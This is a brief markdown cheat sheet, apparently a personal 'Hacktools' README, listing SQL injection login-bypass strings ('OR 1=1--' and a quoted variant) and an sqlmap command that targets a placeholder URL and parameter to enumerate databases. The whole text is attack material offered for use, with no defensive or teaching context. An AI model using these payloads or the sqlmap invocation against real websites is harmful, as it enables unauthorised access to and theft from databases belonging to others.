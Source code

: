 # Hacktools

# SQLI
## Easy command
'OR 1=1-- <br>
'OR '1'='1'--'

## Autotools
sqlmap -u "target-url" -p <your-parament> --thread 10 --random-agent --batch --dbs

